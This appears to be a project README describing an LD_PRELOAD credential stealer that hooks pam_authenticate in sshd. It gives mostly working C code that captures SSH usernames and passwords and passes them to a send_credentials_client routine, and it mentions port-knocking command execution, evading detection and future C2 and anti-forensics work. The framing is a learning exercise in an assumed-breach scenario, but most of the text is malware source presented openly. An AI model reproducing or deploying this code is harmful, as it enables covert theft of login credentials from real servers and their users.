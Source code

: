 # LD_PRELOAD-Based SSH Credential Stealer Documentation

## Introduction
This document details our thought process, hypotheses, and steps taken to implement a malware using the `LD_PRELOAD` technique to extract SSH credentials (username/password). The project was conducted in an assumed breach scenario, initially with root privileges.

## Project Goals
The main objectives of this project were:
- To use `LD_PRELOAD` to hook into SSH authentication functions and extract credentials.
- To investigate and manipulate authentication processes, specifically targeting `pam_authenticate`.
- To introduce a port-knocking mechanism for remote command execution.
- To find a creative way to make a specific file unopenable.

## Thought of thoughts and Initial Exploration

### Overwriting Functions
Our first approach was to overwrite the `read()` function, as it is often used for input handling, but we quickly pivoted to a more direct method.

### Debugging and Exploration
To understand how authentication worked, we ran:
```bash
sudo /usr/sbin/sshd -D -d -e
```
This allowed us to inspect SSH behavior and pinpoint where credentials were processed.

### Investigating PAM Authentication
Given that SSH authentication uses PAM (Pluggable Authentication Module), we examined `pam_authenticate` and specifically:
```c
pamh->handlers.conf.authenticate;
```
We hypothesized that hooking into `pam_authenticate` would let us extract usernames and passwords directly.

### Testing LD_PRELOAD Hook
We created an `LD_PRELOAD` shared object to intercept function calls. Instead of using `printf`, we used `stderr` or `perror` to avoid detection (and because it was the only way to print tbh 😅🤫).

## Implementation

### Extracting Username
We implemented a function to retrieve the SSH username using `pam_get_item`:
```c
char *get_username(pam_handle_t *pamh) {
    char *username = NULL;
    if (pam_get_item(pamh, PAM_USER, (const void **)&username) == PAM_SUCCESS && username) {
//        fprintf(stderr, "USER =>>>>> %s\n", username);
    } else {
        perror("Failed to retrieve username");
    }
    return username;
}
```

### Extracting Password
For password retrieval, we hooked into `sshpam_passwd_conv`:
```c
char *get_password(pam_handle_t *pamh) {
    struct pam_conv *conv;
    if (pam_get_item(pamh, PAM_CONV, (const void **)&conv) == PAM_SUCCESS && conv) {
        const struct pam_message msg = {
            .msg_style = PAM_PROMPT_ECHO_OFF,
            .msg = "Password: "
        };
        const struct pam_message *msgp = &msg;
        struct pam_response *resp = NULL;
        int ret = conv->conv(1, &msgp, &resp, conv->appdata_ptr);
        if (ret == PAM_SUCCESS && resp && resp->resp) {
//            fprintf(stderr, "PASSWORD =>>>>>: %s\n", resp->resp);
            char *password = strdup(resp->resp);
            free(resp->resp);
            free(resp);
            return password;
        } else {
            fprintf(stderr, "Failed to retrieve password\n");
        }
    } else {
        fprintf(stderr, "Failed to retrieve password\n");
    }
    return NULL;
}
```

### Hooking `pam_authenticate`
We replaced the original `pam_authenticate` function to intercept credentials:
```c
typedef int (*pam_authenticate_t)(pam_handle_t *, int);

int pam_authenticate(pam_handle_t *pamh, int flags) {
    static pam_authenticate_t original_pam_authenticate = NULL;
    if (!original_pam_authenticate) {
        original_pam_authenticate = (pam_authenticate_t)dlsym(RTLD_NEXT, "pam_authenticate");
        if (!original_pam_authenticate) {
            fprintf(stderr, "Error loading original pam_authenticate: %s\n", dlerror());
            exit(EXIT_FAILURE);
        }
    }
    char *username = get_username(pamh);
    char *password = get_password(pamh);
    send_credentials_client(username);
    send_credentials_client(password);
    return original_pam_authenticate(pamh, flags);
}
```

## Conclusion
This project successfully demonstrated how `LD_PRELOAD` can be used to intercept and extract SSH credentials by hooking into PAM authentication functions. Future work could focus on enhancing stealth techniques, implementing more advanced anti-forensic measures, and improving the C2 infrastructure.

The project was a great way to both exercise our `C language` skills and significantly increase our knowledge of how the `Linux` OS and it's libraries simultaneously works. 

